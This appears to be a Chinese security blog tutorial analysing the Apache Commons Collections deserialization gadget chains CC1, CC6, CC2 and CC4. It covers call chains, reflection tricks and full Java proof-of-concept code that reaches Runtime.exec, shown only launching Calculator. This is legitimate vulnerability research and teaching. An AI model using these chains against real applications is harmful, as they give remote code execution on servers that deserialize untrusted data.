





# Java 反序列化漏洞系列 -2

# [](#java-%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E7%B3%BB%E5%88%97-2)Java 反序列化漏洞系列 -2

## [](#1-%E8%83%8C%E6%99%AF%E4%BB%8B%E7%BB%8D)1 背景介绍

### [](#11-commons-collections)1.1 Commons Collections

[Apache Commons](http://commons.apache.org/) 是 Apache 软件基金会的项目。[Commons Collections](http://commons.apache.org/proper/commons-collections/) 包为 Java 标准的 `Collections API` 提供了相当好的补充。在此基础上对其常用的数据结构操作进行了很好的封装、抽象和补充。让我们在开发应用程序的过程中，既保证了性能，同时也能大大简化代码。

### [](#12-java-%E4%BB%A3%E7%90%86)1.2 Java 代理

类似于 python 中装饰器的作用，Java 中的代理，就是代理类为被代理类预处理消息、过滤消息并在此之后将消息转发给被代理类，之后还能进行消息的后置处理。代理类和被代理类通常会存在关联关系，代理类本身不实现服务，而是通过调用被代理类中的方法来提供服务。

#### [](#121-%E9%9D%99%E6%80%81%E4%BB%A3%E7%90%86)1.2.1 静态代理

创建一个接口，再创建被代理的类实现该接口并且实现该接口中的抽象方法。之后再创建一个代理类，同时使其也实现这个接口。在代理类中持有一个被代理对象的引用，而后在代理类方法中调用该对象的方法。

接口：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>public interface HelloInterface {<br>    void sayHello();<br>}<br>``` |

被代理类：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>public class Hello implements HelloInterface{<br>    @Override<br>    public void sayHello() {<br>        System.out.println("Hello World!");<br>    }<br>}<br>``` |

代理类：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```java<br>public class HelloProxy implements HelloInterface{<br>    private HelloInterface helloInterface = new Hello();<br>    @Override<br>    public void sayHello() {<br>        System.out.println("Before invoke sayHello" );<br>        helloInterface.sayHello();<br>        System.out.println("After invoke sayHello");<br>    }<br>}<br>``` |

代理类调用：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```java<br>    public static void main(String[] args) {<br>        HelloProxy helloProxy = new HelloProxy();<br>        helloProxy.sayHello();<br>    }<br>    <br>输出：<br>Before invoke sayHello<br>Hello World!<br>After invoke sayHello<br>``` |

使用静态代理很容易就完成了对一个类的代理操作。但是静态代理的缺点也大：由于代理只能为一个类服务，如果需要代理的类很多，那么就需要编写大量的代理类，比较繁琐。因此，提出了动态代理的概念。

#### [](#122-%E5%8A%A8%E6%80%81%E4%BB%A3%E7%90%86)1.2.2 动态代理

利用反射机制在运行时创建代理类。

接口、被代理类不变，通过构建 handler 类来实现 InvocationHandler 接口。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public class ProxyHandler implements InvocationHandler{<br>    private Object object;<br>    public ProxyHandler(Object object){<br>        this.object = object;<br>    }<br>    @Override<br>    public Object invoke(Object proxy, Method method, Object[] args) throws Throwable {<br>        System.out.println("Before invoke "  + method.getName());<br>        method.invoke(object, args);<br>        System.out.println("After invoke " + method.getName());<br>        return null;<br>    }<br>}<br>``` |

执行动态代理：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>``` | ```java<br>public static void main(String[] args) {<br>  	System.getProperties().setProperty("sun.misc.ProxyGenerator.saveGeneratedFiles", "true");<br>    HelloInterface hello = new Hello();<br>    InvocationHandler handler = new ProxyHandler(hello);<br>    HelloInterface proxyHello = (HelloInterface) Proxy.newProxyInstance(hello.getClass().getClassLoader(), hello.getClass().getInterfaces(), handler);<br><br>    proxyHello.sayHello();<br>}<br><br>输出：<br>Before invoke sayHello<br>Hello zhanghao!<br>After invoke sayHello<br>``` |

## [](#2-commonscollections-1-gadget-%E5%88%86%E6%9E%90)2 CommonsCollections 1 Gadget 分析

### [](#21-%E8%B0%83%E7%94%A8%E9%93%BE)2.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```fallback<br>ObjectInputStream.readObject()<br>	AnnotationInvocationHandler.readObject()<br>		MapEntry.setValue()<br>			TransformedMap.checkSetValue()<br>				ChainedTransformer.transform()<br>					ConstantTransformer.transform()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Class.getMethod()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.getRuntime()<br>					InvokerTransformer.transform()<br>						Method.invoke()<br>							Runtime.exec()<br>``` |

### [](#22-poc)2.2 POC

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.getRuntime()),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>        };<br>        <br>        Transformer transformerChain = new ChainedTransformer(transformers);<br><br>        Map innerMap = new HashMap();<br>        Map outerMap = TransformedMap.decorate(innerMap, null, transformerChain);<br>        outerMap.put("test", "Geekby");<br>``` |

### [](#23-%E5%88%86%E6%9E%90)2.3 分析

#### [](#231-%E6%95%B4%E4%BD%93%E6%80%9D%E8%B7%AF)2.3.1 整体思路

cc1 gadget 的 sink 点在于 `InvokerTransformer` 类可以通过传入方法名，方法参数类型、方法参数，利用反射机制，进行方法调用。

反向寻找使用了 `InvokerTransformer` 类中 `transform` 方法的调用点：


发现 `TransformedMap` 类中的 `checkSetValue` 方法中调用了 `transform` 方法

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>protected Object checkSetValue(Object value) {<br>        return valueTransformer.transform(value);<br>}<br>``` |

在 `TransformedMap` 类的成员中，发现 `protected final Transformer valueTransformer` 属性。通过调用该类的 `decorate` 方法，可以构造一个 `TransformedMap` 对象。



接下来去寻找调用了 `checkSetValue` 的 `source`：



在 `MapEntry` 中，存在 `setValue` 方法。因此，该链的前半段 POC 如下：


接下来就是去寻找反序列化的入口，在 `AnnotationInvocationHandler` 类中，重写了 `readObject` 方法，在该方法中，对 `MapEntry` 调用了 `setValue` 方法。



该类非公有，因此，需要通过反射来构造其对象：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>Class annotationClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");<br>Constructor constructor = annotationClass.getDeclaredConstructor(Class.class, Map.class);<br>constructor.setAccessible(true);<br>Object obj = constructor.newInstance(Override.class, outerMap);<br>``` |

对 obj 对象进行反序列化，构成整条链的利用思路。整个过程涉及到如下几个接口和类的具体作用及一些细节如下。

#### [](#232-transformedmap)2.3.2 TransformedMap

TransformedMap 用于对 Java 标准数据结构 Map 做一个修饰，被修饰过的 Map 在添加新的元素时，将可以执行自定义的回调函数。如下，对 innerMap 进行修饰，传出的 outerMap 即是修饰后的 Map:

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>MapouterMap = TransformedMap.decorate(innerMap, keyTransformer,  valueTransformer);<br>``` |

其中，keyTransformer 是处理新元素的 Key 的回调，valueTransformer 是处理新元素的 value 的回调。我们这里所说的「回调」，并不是传统意义上的一个回调函数，而是一个实现了 Transformer 接口的类。

#### [](#233-transformer)2.3.3 Transformer

Transformer 是一个接口，它只有一个待实现的方法：


TransformedMap 在转换 Map 的新元素时，就会调用 transform 方法，这个过程就类似在调用一个「回调函数」，这个回调的参数是原始对象。

#### [](#234-constanttransformer)2.3.4 ConstantTransformer

ConstantTransformer 是实现了 Transformer 接口的一个类，它的过程就是在构造函数的时候传入一个对象：


并在 transform 方法将这个对象再返回：


#### [](#235-invokertransformer)2.3.5 InvokerTransformer

InvokerTransformer 是实现了 Transformer 接口的一个类，这个类可以用来执行任意方法，这也是反序列化能执行任意代码的关键。


在实例化这个 InvokerTransformer 时，需要传入三个参数，第一个参数是待执行的方法名，第二个参数是这个函数的参数列表的参数类型，第三个参数是传给这个函数的参数列表。

后面的回调 transform 方法，就是执行了 input 对象的 iMethodName 方法：


以执行 `calc` 为例：


#### [](#236-chainedtransformer)2.3.6 ChainedTransformer

ChainedTransformer 也是实现了 Transformer 接口的一个类，它的作用是将内部的多个 Transformer 串在一起。通俗来说就是，前一个回调返回的结果，作为后一个回调的参数传入。


引用 phith0n 的一张图：


#### [](#237-annotationinvocationhandler)2.3.7 AnnotationInvocationHandler

触发这个漏洞的核心，在于向 Map 中加入一个新的元素。在上面的 demo 中，通过手动执行 `outerMap.put("test", "xxxx");` 来触发漏洞，但在实际反序列化时，需要找到一个类，它在反序列化的 readObject 逻辑里有类似的写入操作。

在 **AnnotationInvocationHandler** 类中的 `readObject`：



核心逻辑就是 `Map.Entry<String, Object> memberValue : memberValues.entrySet()` 和 `memberValue.setValue(...)` 。在调用 setValue 设置值的时候就会触发 TransformedMap 里注册的 Transform，进而执行 payload。

接下来构造 POC 时，首先创建一个 `AnnotationInvocationHandler`：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```java<br>Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");<br><br>Constructor construct = clazz.getDeclaredConstructor(Class.class, Map.class);<br><br>construct.setAccessible(true);<br><br>Object obj = construct.newInstance(Retention.class, outerMap);<br>``` |

由于 `sun.reflect.annotation.AnnotationInvocationHandler` 是 JDK 的内部类，其构造函数是私有的，因此通过反射来创建对象。

#### [](#238-%E8%BF%9B%E4%B8%80%E6%AD%A5%E5%AE%8C%E5%96%84)2.3.8 进一步完善

通过构造 AnnotationInvocationHandler 类，来创建反序列化利用链的起点，用如下代码将对象序列化：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>ObjectOutputStream oos = new ObjectOutputStream(barr);<br>oos.writeObject(obj);<br>oos.close();<br>``` |

但是，在经过序列化时，抛出异常：


在本系列的第一部分描述过，`java.lang.Runtime` 这个类没有实现 `Serializable` 接口，无法序列化。因此，需要通过反射来获取当前上下文中的 `java.lang.Runtime` 对象。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>Method m = Runtime.class.getMethod("getRuntime");<br>Runtime r = (Runtime) m.invoke(null);<br>r.exec("/System/Applications/Calculator.app/Contents/MacOS/Calculator");<br>``` |

转换成 Transformer 的写法：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```java<br>Transformer[] transformers = new Transformer[]{<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class}, new Object[]{"getRuntime", null}),<br>                new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, null}),<br>                new InvokerTransformer("exec", new Class[]{String.class}, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),<br>};<br>``` |

但是，执行过后，发现仍然没有弹出计算器。

动态调试发现与 AnnotationInvocationHandler 类的逻辑有关，在 `AnnotationInvocationHandler:readObject` 的逻辑中，有一个 if 语句对 var7 进行判断，只有在其不是 null 的时候才会进入里面执行 setValue，否则不会进入也就不会触发漏洞。

那么如何让这个 var7 不为 null 呢？需要如下两个条件：

1.  `sun.reflect.annotation.AnnotationInvocationHandler` 构造函数的第一个参数必须是 Annotation 的子类，且其中必须含有至少一个方法，假设方法名是 X
2.  被 TransformedMap.decorate 修饰的 Map 中必须有一个键名为 X 的元素

所以，前面的 payload 中用到了 `Retention.class` ，因为 Retention 有一个方法，名为 value。为了再满足第二个条件，需要给 Map 中放入一个 Key 是 value 的元素：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>innerMap.put("value","Geekby");<br>``` |

但是这个 Payload 有一定局限性，在 Java 8u71 以后的版本中，由于 `sun.reflect.annotation.AnnotationInvocationHandler` 发生了变化导致不再可用。

## [](#3-commonscollections-6-gadget-%E5%88%86%E6%9E%90)3 CommonsCollections 6 Gadget 分析

### [](#31-%E8%B0%83%E7%94%A8%E9%93%BE)3.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```fallback<br>java.io.ObjectInputStream.readObject()<br>    java.util.HashSet.readObject()<br>        java.util.HashMap.put()<br>        java.util.HashMap.hash()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()<br>            org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()<br>                org.apache.commons.collections.map.LazyMap.get()<br>                    org.apache.commons.collections.functors.ChainedTransformer.transform()<br>                    org.apache.commons.collections.functors.InvokerTransformer.transform()<br>                    java.lang.reflect.Method.invoke()<br>                        java.lang.Runtime.exec()<br>``` |

### [](#32-poc)3.2 POC

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>``` | ```java<br>public class Main {<br>    public static void main(String[] args) throws NoSuchFieldException, IllegalAccessException, IOException, ClassNotFoundException {<br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br>        Transformer transformerChain = new ChainedTransformer(transformers);<br>        Map innerMap = new HashMap();<br>        Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>        TiedMapEntry te = new TiedMapEntry(lazyMap, "poc");<br><br>        HashSet ht = new HashSet();<br>        ht.add(te);<br><br>        innerMap.remove("poc");<br><br>        Class c = LazyMap.class;<br>        Field f = c.getDeclaredField("factory");<br>        f.setAccessible(true);<br>        f.set(lazyMap, transformerChain);<br><br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(ht);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br><br>    }<br>}<br>``` |

### [](#33-%E5%88%86%E6%9E%90)3.3 分析

CommonsCollections 6 的 sink 链使用的依旧是 `InvokerTransformer` 反射接口，利用 `ChainedTransformer` 串联三次 `InvokerTransformer` 反射和 `ConstantTransformer` 接口，获取 Runtime 类。

在 `CommonsCollections 1` 中，通过交叉引用搜索到另外一个类 `LazyMap` 中的 `get` 方法调用了 `transform` 方法。


通过调用 `LazyMap.decorate` 方法，将恶意的 `ChainedTransformer` 赋值给 `LazyMap#factory`，当调用 `LazyMap#get(Object key)` 方法，则会触发恶意代码的执行。（与 CommonsCollections 1、CommonsCollections 5 的 sink 点相同）

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```java<br>public static void main(String[] args) {<br>    Transformer[] transformers = new Transformer[] {<br>        new ConstantTransformer(Runtime.class),<br>        new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>        new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>        new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>    };<br>    Transformer transformerChain = new ChainedTransformer(transformers);<br>    Map innerMap = new HashMap();<br>    Map outerMap = LazyMap.decorate(innerMap, transformerChain);<br>  	outerMap.get("poc");<br>}<br>``` |

CommonsCollections 6 gadget 作者找到了 `TiedMapEntry` 类，其中在 `TiedMapEntry#getValue()` 方法中调用了 `this.map.get(this.key)` 方法。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>public Object getValue() {<br>    return this.map.get(this.key);<br>}<br>``` |

调用 `TiedMapEntry(Map map, Object key)` 构造方法，可以为 `TiedMapEntry#map` 赋值


在 `TiedMapEntry` 中的 `equals(Object obj)`、`hashCode()`、`toString()` 方法中都调用了 `TiedMapEntry#getValue()` 方法。这里作者选择调用 `TiedMapEntry#hashCode()` 方法。


接下来的思路就和 DNSURL 链类似，通过 HashMap 入口进行反序列化。

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```java<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br>te.hashCode();<br>``` |

但是，在构造 HashMap 时，调用 put 方法，执行 hashcode 方法，会直接执行后续的命令执行操作，情况和 DNSURL 链相似，因此，需要通过反射来进行一些设置。

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>``` | ```java<br>Map innerMap = new HashMap();<br>Map lazyMap = LazyMap.decorate(innerMap, new ConstantTransformer(1));<br>TiedMapEntry te = new TiedMapEntry(lazyMap, "Geekby");<br><br>HashMap<Object, Object> ht =  new HashMap<>();<br>ht.put(te, null);<br>// ht put 后，调用 TiedMapEntry#hashCode 中 getValue()<br>// 调用 lazyMap#get 方法<br>// 判断 innerMap 中是否含有 "Geekby" 这个 key<br>// 没有，进入 if 逻辑，调用 transform，向 innerMap 中添加对应的 Key:Value<br>// 然后再删除这个键值对，便于后续反序列化再次进入 if 逻辑。<br>innerMap.remove("Geekby");<br>// 此外将 LazyMap#factory 属性还原为 transformerChain （防止构造时就执行）<br>Class c = LazyMap.class;<br>Field factoryField = c.getDeclaredField("factory");<br>factoryField.setAccessible(true);<br>factoryField.set(lazyMap, transformerChain);<br>``` |

## [](#4-commonscollections-24-gadget-%E5%88%86%E6%9E%90)4 CommonsCollections 2&&4 Gadget 分析

在 2015 年底 commons-collections 反序列化利用链被提出时，Apache Commons Collections 有以下两个分支版本：

-   commons-collections:commons-collections
-   org.apache.commons:commons-collections4

可⻅，groupId 和 artifactId 都变了。前者是 Commons Collections 老的版本包，当时版本号是 3.2.1，后者是官方在 2013 年推出的 4 版本，当时版本号是 4.0。

官方认为旧的 commons-collections 有一些架构和 API 设计上的问题，但修复这些问题，会产生大量不能向前兼容的改动。所以，commons-collections4 不再认为是一个用来替换 commons-collections 的新版本，而是一个新的包，两者的命名空间不冲突，因此可以共存在同一个项目中。

那么，既然 3.2.1 中存在反序列化利用链，那么 4.0 版本是否存在呢？

### [](#41-commonscollections4-%E5%8C%85%E7%9A%84%E6%94%B9%E5%8A%A8)4.1 CommonsCollections4 包的改动

由于两个版本的库可以共存，因此把两个包放到同一个项目中的 `pom.xml` 进行比较：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>``` | ```xml<br><dependencies><br>    <dependency><br>        <groupId>commons-collections</groupId><br>        <artifactId>commons-collections</artifactId><br>        <version>3.2.1</version><br>    </dependency><br>    <dependency><br>        <groupId>org.apache.commons</groupId><br>        <artifactId>commons-collections4</artifactId><br>        <version>4.0</version><br>    </dependency><br></dependencies><br>``` |

用之前的 `CommonsCollections6` 利用链做个例子，然后将所有 `import org.apache.commons.collections.*` 改成 `import org.apache.commons.collections4.*` 。

直接运行，发现 `LazyMap.decorate` 这个方法没有了：


在 3 中的定义：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>public static Map decorate(Map map, Transformer factory) {<br>    return new LazyMap(map, factory);<br>}<br>``` |

而在 6 中的定义：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>public static <K, V> LazyMap<K, V> lazyMap(final Map<K, V> map, final Factory< ? extends V> factory) {<br>    return new LazyMap<K,V>(map, factory);<br>}<br>``` |

这个方法不过就是 LazyMap 构造函数的一个包装，而在 4 中其实只是改了个名字叫 lazyMap。

所以，将 Gadget 中出错的代码换一下名字：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>MapouterMap = LazyMap.lazyMap(innerMap, transformerChain);<br>``` |

运行：


同理，之前的 CC1 Gadget、CC6 Gadget，都可以在 CommonsCollections4 中正常使用。

### [](#42-priorityqueue-%E5%88%A9%E7%94%A8%E9%93%BE)4.2 PriorityQueue 利用链

`ysoserial` 还为 commons-collections4 准备了两条新的利用链，那就是 `CommonsCollections2` 和 `CommonsCollections4`。

commons-collections 这个包之所有能攒出那么多利用链来，除了因为其使用量大，技术上的原因是其中包含了一些可以执行任意方法的 **Transformer**。所以，在 **commons-collections** 中找 **Gadget** 的过程，实际上可以简化为，找一条从 **Serializable#readObject()** 方法到 **Transformer#transform()** 方法的调用链。

#### [](#421-commonscollections2-gadget)4.2.1 CommonsCollections2 Gadget

##### [](#4211-%E8%B0%83%E7%94%A8%E9%93%BE)4.2.1.1 调用链

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```fallback<br>ObjectInputStream.readObject()<br>	PriorityQueue.readObject()<br>		...<br>			TransformingComparator.compare()<br>				InvokerTransformer.transform()<br>					Method.invoke()<br>						Runtime.exec()<br>``` |

##### [](#4212-%E5%88%86%E6%9E%90)4.2.1.2 分析

在 CC2 中，用到的两个关键类是：

-   `java.util.PriorityQueue`
-   `org.apache.commons.collections4.comparators.TransformingComparator`

首先，`java.util.PriorityQueue` 类拥有自己的 `readObject()`：


`org.apache.commons.collections4.comparators.TransformingComparator` 中有调用 `transform()` 方法的函数：


所以，`CommonsCollections2` 实际就是一条从 `PriorityQueue` 到 `TransformingComparator` 的利用链。

接下来看下这个 Gadget 的串联方式： `PriorityQueue#readObject()` 中调用了 `heapify()` 方法， `heapify()` 中调用了 `siftDown()` ， `siftDown()` 中调用 `siftDownUsingComparator()` ， `siftDownUsingComparator()` 中调用的 `comparator.compare()` ，于是就连接到上面的 `TransformingComparator` 了：



总结起来就是：

-   `java.util.PriorityQueue` 是一个优先队列 (Queue)，基于二叉堆实现，队列中每一个元素有自己的优先级，节点之间按照优先级大小排序成一棵树。
    
-   反序列化时调用 `heapify()` 方法，是为了反序列化后，需要恢复这个结构的顺序。
    
-   排序是靠将大的元素下移实现的。`siftDown()` 是将节点下移的函数，而 `comparator.compare()` 用来比较两个元素大小。
    
-   `TransformingComparator` 实现了 `java.util.Comparator` 接口，这个接口用于定义两个对象如何进行比较。 `siftDownUsingComparator()` 中就使用这个接口的 `compare()` 方法比较树的节点。
    

POC 如下：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>26<br>27<br>28<br>29<br>30<br>31<br>32<br>33<br>34<br>35<br>36<br>37<br>38<br>39<br>40<br>41<br>42<br>43<br>44<br>45<br>46<br>47<br>48<br>49<br>50<br>``` | ```java<br>package CC4Test;<br><br>import org.apache.commons.collections4.Transformer;<br>import org.apache.commons.collections4.comparators.TransformingComparator;<br>import org.apache.commons.collections4.functors.ChainedTransformer;<br>import org.apache.commons.collections4.functors.ConstantTransformer;<br>import org.apache.commons.collections4.functors.InvokerTransformer;<br><br>import java.io.ByteArrayInputStream;<br>import java.io.ByteArrayOutputStream;<br>import java.io.ObjectInputStream;<br>import java.io.ObjectOutputStream;<br>import java.lang.reflect.Field;<br>import java.util.Comparator;<br>import java.util.PriorityQueue;<br><br>public class CC4Test {<br>    public static void main(String[] args) throws Exception {<br>        Transformer[] fakeTransformers = new Transformer[] {new ConstantTransformer(1)};<br><br>        Transformer[] transformers = new Transformer[] {<br>                new ConstantTransformer(Runtime.class),<br>                new InvokerTransformer("getMethod", new Class[] { String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),<br>                new InvokerTransformer("invoke", new Class[] { Object.class, Object[].class }, new Object[] {null, new Object[0] }),<br>                new InvokerTransformer("exec",new Class[] { String.class }, new Object[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"})<br>        };<br><br>        Transformer transformerChain = new ChainedTransformer(fakeTransformers);<br><br>        Comparator comparator = new TransformingComparator(transformerChain);<br>        PriorityQueue queue = new PriorityQueue(2, comparator);<br><br>        queue.add(1);<br>        queue.add(2);<br>        <br>        Field f = transformerChain.getClass().getDeclaredField("iTransformers");<br>        f.setAccessible(true);<br>        f.set(transformerChain, transformers);<br><br>        // 序列化<br>        ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>        ObjectOutputStream oos = new ObjectOutputStream(barr);<br>        oos.writeObject(queue);<br>        oos.close();<br><br>        // 反序列化<br>        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>        ois.readObject();<br>    }<br>}<br>``` |

#### [](#422-commonscollection4-gadget)4.2.2 CommonsCollection4 Gadget

改进 PriorityQueue 利用链：因为 CommonsCollections4 除 4.0 的其他版本去掉了 InvokerTransformer 的 Serializable 继承，导致无法序列化。所以便有了 CC4，CC4 只是将 CC2 中的 InvokerTransformer 替换为了 InstantiateTransformer。

创建 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>4<br>``` | ```java<br>TemplatesImpl obj = new TemplatesImpl();<br>setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>``` |

创建一个正常的 `InvokerTransformer` 对象，并用它实例化 `Comparator` :

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```java<br>Transformer transformer = new InvokerTransformer("toString", null, null);<br>Comparator comparator = new TransformingComparator(transformer);<br>``` |

实例化 `PriorityQueue` ，向队列里添加的元素是前面创建的 `TemplatesImpl` 对象：

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>3<br>``` | ```java<br>PriorityQueue queue = new PriorityQueue(2, comparator);<br>queue.add(obj);<br>queue.add(obj);<br>``` |

原因很简单，和上一篇文章相同，因为我们这里无法再使用 `Transformer` 数组，所以也就不能用 `ConstantTransformer` 来初始化变量，需要接受外部传入的变量。而在 `Comparator#compare()` 时，队列里的元素将作为参数传入 `transform()` 方法，这就是传给 `TemplatesImpl#newTransformer` 的参数。

最后一步，将 `toString` 方法改成恶意方法 `newTransformer` :

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```java<br>setFieldValue(transformer, "iMethodName", "newTransformer");<br>``` |

最终的 POC：

|     |     |     |
| --- | --- | --- |
| ```bash<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>``` | ```java<br>public static void main(String[] args) throws Exception {<br>    TemplatesImpl obj = new TemplatesImpl();<br>    setFieldValue(obj, "_bytecodes", new byte[][]{getBytescode()});<br>    setFieldValue(obj, "_name", "HelloTemplatesImpl");<br>    setFieldValue(obj, "_tfactory", new TransformerFactoryImpl());<br>    <br>    Transformer transformer = new InvokerTransformer("toString", null, null);<br>  <br>    Comparator comparator = new TransformingComparator(transformer);<br>  <br>    PriorityQueue queue = new PriorityQueue(2, comparator);<br>    queue.add(obj);<br>    queue.add(obj);<br>  <br>    setFieldValue(transformer, "iMethodName", "newTransformer");<br>  <br>    ByteArrayOutputStream barr = new ByteArrayOutputStream();<br>    ObjectOutputStream oos = new ObjectOutputStream(barr);<br>    oos.writeObject(queue);<br>    oos.close();<br><br>    ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));<br>    Object o = (Object)ois.readObject();<br>}<br>``` |

## [](#%E5%8F%82%E8%80%83)参考

[phith0n Java 漫谈系列](https://wx.zsxq.com/dweb2/index/group/2212251881)

[Java 反序列化漏洞原理解析](https://xz.aliyun.com/t/6787#toc-11)

[Java 反序列化漏洞从入门到关门](https://www.freebuf.com/articles/web/271275.html)

[从 0 开始学 Java 反序列化漏洞](https://yinwc.github.io/2020/02/08/java%e5%8f%8d%e5%ba%8f%e5%88%97%e5%8c%96%e6%bc%8f%e6%b4%9e/)

[深入理解 JAVA 反序列化漏洞](https://paper.seebug.org/312/)

[Java 反序列化利用链补全计划](https://0range228.github.io/Java%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E5%88%A9%E7%94%A8%E9%93%BE%E8%A1%A5%E5%85%A8%E8%AE%A1%E5%88%92/)

